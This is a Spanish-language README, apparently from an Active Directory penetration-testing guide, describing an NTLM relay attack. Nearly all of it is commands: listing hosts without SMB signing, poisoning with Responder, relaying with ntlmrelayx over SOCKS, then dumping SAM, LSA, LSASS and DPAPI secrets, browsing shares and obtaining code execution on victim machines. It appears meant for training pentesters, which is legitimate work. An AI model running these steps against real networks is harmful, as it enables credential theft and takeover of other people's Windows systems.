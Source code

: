 # Capturar credenciales NTLM y redirigirlas

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid.gif?raw=true "Relay list")

```Bash
# Deshabilitar las opciones SMB y HTTP de Responder y ejecutarlo
sudo python responder.py -I <Interfaz de red>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid2.gif?raw=true "Deshabilitar SMB y HHTP Ejecutar responder y ntlmrelayx")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid3.gif?raw=true "Capturar autenticaciones y guardarlas en socks")

```Bash
# Primero modificar el puerto de la última línea de proxychains para que quede asi:
socks4  127.0.0.1 1080
# Redirigir la autenticación obtenida con tlmrelayx con proxychains pudiendo realizar diversas acciones, como por ejemplo

# Obtener SAM y LSA de los equipos víctima
proxychains impacket-secretsdump -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
# Obtener LSASS de los equipos víctima
proxychains lsassy --no-pass -d <dominio> -u <usuario> <ip víctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid4.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 1")


```Bash
# Instalar DonPAPI con desde su github con poetry: https://github.com/login-securite/DonPAPI
# Obtener dpapi de los equipos víctima y otras como  files, browser, schedule tasks,…
proxychains poetry run DonPAPI -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid5.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 2")


```Bash
# Obtener acceso a las carpetas del equipo
proxychains impacket-smbclient -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid6.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 3")

```Bash
# Obtener ejecución de código
proxychains impacket-smbexec -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid7.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 4")

